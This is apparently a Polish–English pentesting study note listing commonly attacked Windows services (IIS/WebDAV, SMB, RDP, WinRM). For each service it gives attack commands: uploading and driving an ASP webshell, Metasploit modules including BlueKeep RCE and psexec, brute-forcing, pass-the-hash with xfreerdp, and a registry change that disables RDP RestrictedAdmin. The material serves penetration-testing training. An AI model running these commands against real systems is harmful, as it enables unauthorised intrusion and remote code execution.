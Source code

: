 # Frequently exploited Windows vulnerabilities

|                                                 |                                                           |                                                                                                                                                                                |
| ----------------------------------------------- | --------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Microsoft IIS (Internet Information Services)   | TCP ports<br>80/443                                      | Proprietary web server software developed by Microsoft that runs on Windows.                                                                                                   |
| WebDAV (Web Distributed Authoring & Versioning) | TCP ports<br> 80/443                                      | HTTP extension that allows clients to update, delete, move and copy files on a web server. WebDAV is used to enable a web server to act as a file server.                      |
| SMB/CIFS (Server Message Block Protocol)        | TCP port<br> 445                                          | (czasem oparty na protokole NetBIOS) Network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN). |
| RDP(Remote Desktop Protocol)                    | TCP port<br> (zazwyczaj)3389,<br>często zmieniany na inny | Proprietary GUI remote access protocol developed by Microsoft and is used to remotely authenticate and interact with a Windows system.                                         |
| WinRM (Windows Remote Management Protocol)      | TCP ports<br> 5985(HTTP)<br>5986(HTTPS)                   | Windows remote management protocol that can be used to facilitate remote access with Windows systems. (Execute commands on remote machine)                                     |

## IIS - WebDAV (T:80/443)

Sprawdzić nagłówkiem `HTTP OPTION` jakie opcje są dostępne 
Supported executable file extensions: `.asp`, `.aspx`, `.config`, `.php`
### $ hydra

![[hydra#Http-get (WebDAV)]]
### $ davtest

Davtest is a WebDAV scanner that sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files. The tool also tried to execute uploaded files and gives us an output of successfully executed files.

```bash
$ davtest -url http://10.0.16.177/webdav
$ davtest -auth bob:password_123321 -url http://10.0.16.177/webdav
```

### $ cadaver

Cadaver is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.

```bash
$ cadaver
> open http://target/webdav
 username: ...
 password: ...
> put /usr/share/webshells/asp/webshell.asp # wgranie webshella na server
# otworzyć webshell w przeglądarce

http://target/webdav/webshell.asp?cmd=whoam
http://target/webdav/webshell.asp?cmd=dir+C%3A%5C
http://target/webdav/webshell.asp?cmd=type+C%3A%5Cflag.txt
```

### $ msf

```bash
use exploit/windows/iis/iis_webdav_upload_asp
setg PATH /webdav/metsploit.asp # pamiętać o zmianie ścieżki
```

## SMB (T:445)

### $ msf>psexec

```bash
exploit/windows/smb/psexec
```

This module uses a valid administrator username and password (or password hash) to execute an arbitrary payload.
**Pass-the-hash:**
![[Pass-the-hash#$ msf>psexec]]
### $    impacket-psexec
![[tools/impacket#psexec]]
## RDP (T:3389)

bardzo często port jest zmieniany na inny niż 3389

### $ msf>rdp_scanner

### $ msf>BlueKeep(vulnerability)

```bash
msfconsole
search bluekeep (jest skaner oraz samo skrypt RCE)
use bluekeep_rce
show targets
set target 2
```

### $ xfreerdp

```bash
$ hydra ...
# program do łączenia się poprzez RDP
$ xfreerdp /u:administrator /p:qwertyuiop /v:target:3333
$ xfreerdp /v:192.168.100.50 /u:mike /p:diamond +clipboard /dynamic-resolution
```

#### $ passthehash z xfreerdp
```powershell
# https://www.stationx.net/pass-the-hash-attack/

# zmienia Restricted Acces jeśli jest włączony
$ reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

# kali
$ xfreerdp /v:192.168.100.50 /u:Administrator /pth:5c4d59391f656d5958dab124ffeabc20 +clipboard /dynamic-resolutionz
```

## WinRM (HTTP:5985/HTTPS:5986)

### $ msf

```bash
# czy winrm jest włączony i jekie metody logowania
use auxiliary/scanner/winrm/winrm_auth_methods

# bruteforce winrm
use auxiliary/scanner/winrm/winrm_login

# Execute command on the target server
auxiliary/scanner/winrm/winrm_cmd

# exploit na meterpreter
exploit/windows/winrm/winrm_script_exec
```

### $ crackmapexec
![[crackmapexec#WinRM (T 5985/5986)]]

### $ evil-winrm

![[tools/evil-winrm#Windows Remote Management shell for pentesting.]]

### $ msf>winrm_auth_methods

This is very important to know, before we try to connect to the WinRM service. We need to use
a valid authentication method while connecting to the service

```bash
use auxiliary/scanner/winrm/winrm_auth_methods
```

### $ msf>winrm_cmd

This module runs arbitrary Windows commands using the WinRM Service

```bash
use auxiliary/scanner/winrm/winrm_cmd
...
set CMD whoami
```

### $ msf>winrm_script_exec

sesja meterpreter

```bash
use exploit/windows/winrm/winrm_script_exec
...
set FORCE_VBS true
```
